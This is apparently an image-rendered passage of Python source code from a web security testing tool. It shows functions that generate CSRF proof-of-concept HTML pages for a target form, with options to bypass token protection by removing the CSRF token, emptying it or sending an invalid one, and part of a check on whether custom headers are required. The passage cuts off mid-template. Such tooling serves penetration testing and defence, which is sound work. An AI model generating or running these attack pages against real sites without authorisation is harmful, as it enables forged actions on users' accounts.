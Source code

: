 ```python
                headers=headers,
                allow_redirects=False
            )
            
            # If first request fails but second succeeds, custom headers are required
            return not self.is_request_successful(response1) and self.is_request_successful(response2)
        except:
            return False
    
    def generate_csrf_poc(self, operation, bypass_method=None):
        """Generate CSRF Proof of Concept"""
        if operation['method'] == 'GET':
            return self.generate_get_csrf_poc(operation)
        else:
            return self.generate_post_csrf_poc(operation, bypass_method)
    
    def generate_post_csrf_poc(self, operation, bypass_method=None):
        """Generate POST-based CSRF PoC"""
        form_fields = []
        
        for input_field in operation.get('inputs', []):
            if input_field['name']:
                value = input_field['value'] or 'csrf_test_value'
                
                # Handle CSRF token based on bypass method
                if input_field['type'] == 'hidden' and 'csrf' in input_field['name'].lower():
                    if bypass_method == 'remove_token':
                        continue  # Skip CSRF token
                    elif bypass_method == 'empty_token':
                        value = ''
                    elif bypass_method == 'invalid_token':
                        value = 'invalid_csrf_token'
                
                form_fields.append(f'    <input type="hidden" name="{input_field["name"]}" value="{value}">')
        
        poc_html = f'''
<!DOCTYPE html>
<html>
<head>
    <title>CSRF Proof of Concept</title>
    <style>
        body {{ font-family: Arial, sans-serif; margin: 40px; }}
        .container {{ max-width: 800px; margin: 0 auto; }}
        .info {{ background: #f0f0f0; padding: 20px; margin: 20px 0; border-radius: 5px; }}
        .form-container {{ background: #fff; padding: 20px; border: 1px solid #ddd; border-radius: 5px; }}
        button {{ background: #007cba; color: white; padding: 10px 20px; border: none; border-radius: 3px; cursor: pointer; }}
        button:hover {{ background: #005a87; }}
    </style>
</head>
<body>
    <div class="container">
        <h1>🔒 CSRF Proof of Concept</h1>
        
        <div class="info">
            <h3>Attack Details</h3>
            <p><strong>Target:</strong> {operation['action']}</p>
            <p><strong>Method:</strong> {operation['method']}</p>
            <p><strong>Bypass Method:</strong> {bypass_method or 'Direct Attack'}</p>
        </div>
```
